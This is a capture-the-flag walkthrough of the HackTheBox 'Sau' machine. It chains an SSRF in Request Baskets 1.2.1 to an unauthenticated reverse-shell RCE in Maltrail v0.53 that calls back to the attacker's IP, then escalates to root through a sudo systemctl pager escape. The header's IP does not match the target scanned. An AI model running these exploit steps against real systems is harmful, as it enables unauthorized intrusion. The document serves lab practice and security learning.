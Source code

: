 # HTB - Sau

#### Ip: 10.10.10.248
#### Name: Sau
#### Rating: Easy

----------------------------------------------------------------------

![Sau.png](../assets/sau_assets/Sau.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.224
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-14 10:30 CST
Nmap scan report for 10.10.11.224
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 14 Feb 2024 16:31:12 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 14 Feb 2024 16:30:44 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 14 Feb 2024 16:30:45 GMT
|_    Content-Length: 0
```

Interesting how port 80 and 8338 are returning on the Nmap scan, but are filtered.

Looking at port 55555 we see it is a web page running Request Baskets:

![sau_site.png](../assets/sau_assets/sau_site.png)

At the bottom of the page we also get the version number running:

```
Powered by request-baskets | Version: 1.2.1 
```

Searching for exploits against this version, we find it is vulnerable to SSRF, and and find a public exploit for the vulnerability: https://github.com/entr0pie/CVE-2023-27163

I don't have much experience with SSRF, so reading up on the vulnerability anymore I find a helpful refresher at: https://portswigger.net/web-security/ssrf

Per the site:

```
 Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials. 
```

Ok cool, so thinking back to ports 80 and 8338 being filtered on the target, I wonder if they are open internally only and we can access them using this exploit.

Lets try it.

### Exploitation

Downloading the exploit using wget, I can then run it, with the first argument being the vulnerable service on port 55555, and the second argument being port 80 running on localhost:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ bash CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "dbvzpu" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/dbvzpu now makes the server request to http://127.0.0.1:80/.
> Authorization: 7u30CF26LRwaGj0ZCeEYdMwcqCu5Hh2e7_Lhrvhln91D
```

This creates a basket for us, and gives us the authorization key to access it.


Now if we navigate to the created basket we can see port 80 is running maltrail V0.53

![sau_internal.png](../assets/sau_assets/sau_internal.png)

Looking for maltrail exploits I find an unauthenticated RCE: https://github.com/spookier/Maltrail-v0.53-Exploit

This exploit targets the username parameter and injects a reverse shell into it.

![sau_mal_exploit](../assets/sau_assets/sau_mal_exploit.png)

Running the exploit against the basket targeting maltrail:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ python maltrail_rce.py 10.10.14.60 8338 http://10.10.11.224:55555/dbvzpu
Running exploit on http://10.10.11.224:55555/dbvzpu/login
```

Gets me a shell us user puma:

![sau_shell.png](../assets/sau_assets/sau_shell.png)

I can now access the user.txt flag in puma's home directory:

![sau_user.png](../assets/sau_assets/sau_user.png)

### Privilege Escalation

Running `sudo -l` to see what I can run with elevated permissions:

```
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Cool, this should be straightforward. Checking out https://gtfobins.github.io/gtfobins/systemctl/

I find:

![sau_gtfo.png](../assets/sau_assets/sau_gtfo.png)

I can then run:

```
puma@sau:/usr/bin$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
<SNIP>
!sh
```

To drop into a root shell, permitting me to read the final flag:

![sau_root.png](../assets/sau_assets/sau_root.png)

Thanks for following along!

-Ryan

